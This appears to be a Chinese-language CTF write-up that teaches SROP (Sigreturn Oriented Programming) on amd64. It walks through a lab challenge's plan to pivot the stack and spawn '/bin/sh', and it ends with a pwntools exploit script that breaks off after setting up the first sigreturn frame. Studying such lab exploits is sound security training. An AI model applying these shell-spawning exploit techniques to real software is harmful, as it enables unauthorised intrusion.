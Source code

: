 传统的ROP技术，尤其是amd64上的ROP，需要寻找大量的gadgets以对寄存器进行赋值，执行特定操
作，如果没有合适的gadgets就需要进行各种奇怪的组装。这一过程阻碍了ROP技术的使用。而 SROP技
术的提出大大简化了ROP攻击的流程 。
SROP(Sigreturn Oriented Programming)技术利用了类Unix系统中的Signal机制

![pERMl7R.png](https://s21.ax1x.com/2025/04/11/pERMl7R.png)

1. 当一个用户层进程发起signal时，控制权切到内核层
2. 内核保存进程的上下文(对我们来说重要的就是寄存器状态)到用户的栈上，然后再把rt_sigreturn地
	址压栈，跳到用户层执行Signal Handler，即调用rt_sigreturn
3. rt_sigreturn执行完，跳到内核层
4. 内核恢复②中保存的进程上下文，控制权交给用户层进程
	重点：内核恢复②中保存的进程上下文，控制权交给用户层进程

仔细回顾一下内核在 signal 信号处理的过程中的工作，我们可以发现，内核主要做的工作就是为进程保存上下文，并且恢复上下文。这个主要的变动都在 Signal Frame 中。但是需要注意的是：

- Signal Frame 被保存在用户的地址空间中，所以用户是可以读写的。
- 由于内核与信号处理程序无关 (kernel agnostic about signal handlers)，它并不会去记录这个 signal 对应的 Signal Frame，所以当执行 sigreturn 系统调用时，此时的 Signal Frame 并不一定是之前内核为用户进程保存的 Signal Frame。

**上面的话都不用看**，其实看不太好理解的，是wiki上面写的，用人话总结一下就是：利用linux下的一个系统调用号**15=0xf**——去调用signal机制，而且**pwntools**已经包装很完整了，不用看那些不像人话的东西，**直接看怎么利用就好**

### 利用：

exploit思路:

1. 控制程序流（有得大量溢出才可以）
2. 构造ROP链调用rt_sigreturn（用pwntools的SigreturnFrame()）
3. 能控制栈的布局（设置各个寄存器参数）

这里用newstar2023-srop来讲解：

先查看ida，正确应该是先checksec，但是我习惯先看看里面，可以发现有足够的输入，有syscall。同时这题没有开启canary。

![pERM8tx.png](https://s21.ax1x.com/2025/04/11/pERM8tx.png)

可以看见有return 15；这个就是我们说的系统调用号15=0xf，也就是去调用signal机制的机会。

![pERMGh6.png](https://s21.ax1x.com/2025/04/11/pERMGh6.png)

把0x40118c作为构造的rip值,有leave(mov rsp,rbp,pop rbp),在sigreturn后可以实现栈迁移,我们把srop构造成syscall(0,0,0x404020,0x200),也就是向data段写入0x200字节数据,在输入完成后通过栈迁移到data段,所以在第一次溢出后(也就是第一次srop)向data输入/bin/sh字符串和再次构造的srop，syscall(59,"/bin/sh",0,0)即可get shell

exp：

```python
from pwn import *
#from LibcSearcher import *
#from pwnlib import *
io = remote("node5.buuoj.cn",29280)
#io=process("./pwn_1")
elf=ELF("/home/feeling/ctf/pwn/pwn_1")
#libc=ELF("libc.so.6")

context.arch='amd64'

syscall=0x401040	#ida里面找syscall原函数
buf=0x404020		#ida也可以找到buf地址
sys=0x401136		#这个就是return 15;
pop_rdi=0x401203
syscall_leave=0x40118C	#这个是还有leave ret。

frame=SigreturnFrame()

frame.rdi=0
frame.rsi=0
```